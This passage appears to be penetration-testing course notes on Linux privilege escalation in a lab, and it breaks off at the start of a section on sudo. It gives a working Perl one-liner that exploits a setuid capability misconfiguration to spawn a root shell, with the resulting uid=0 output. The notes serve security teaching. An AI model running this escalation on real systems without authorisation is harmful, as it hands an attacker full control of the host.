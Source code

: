 ```
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

The two _perl_ binaries stand out as they have _setuid_ capabilities enabled, along with the _+ep_ flag specifying that these capabilities are _effective_ and _permitted_
+ Even though they seem similar, capabilities, setuid, and the setuid flag are located in different places within the Linux ELF file format

In order to exploit this capability misconfiguration, we could check the _GTFOBins_ (https://gtfobins.github.io/) website
+ This site provides an organized list of UNIX binaries and how can they be misused to elevate our privileges

Searching for "Perl" on the GTFOBins website, we'll find precise instructions for which command to use to exploit capabilities
+ We'll use the whole command, which executes a shell along with a few POSIX directives enabling setuid
```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
+ Example:
```
perl: warning: Setting locale failed.
...
# id
uid=0(root) gid=1000(joe) groups=1000(joe),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),112(bluetooth),116(lpadmin),117(scanner)
```
+ We managed to gain a root shell via yet another misconfiguration vector.

### Abusing Sudo 
On UNIX systems, the _sudo_ utility can be used to execute a command with elevated privileges
+ To be able to use sudo, our low-privileged user account must be a member of the sudo group (on Debian based Linux distributions)
+ The word "sudo" stands for "Superuser-Do", and we can think of it as changing the effective user-id of the executed command

Custom configurations of sudo-related permissions can be applied in the **/etc/sudoers** file
+ We can use the **-l** or **--list** option to list the allowed commands for the current user:
```
sudo -l
```
+ Example output:
```
[sudo] password for joe:
Matching Defaults entries for joe on debian-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User joe may run the following commands on debian-privesc:
    (ALL) (ALL) /usr/bin/crontab -l, /usr/sbin/tcpdump, /usr/bin/apt-get
```
+ Above we notice that only crontab jobs, tcpdump, and apt-get utilities are listed as allowing _sudo_ commands
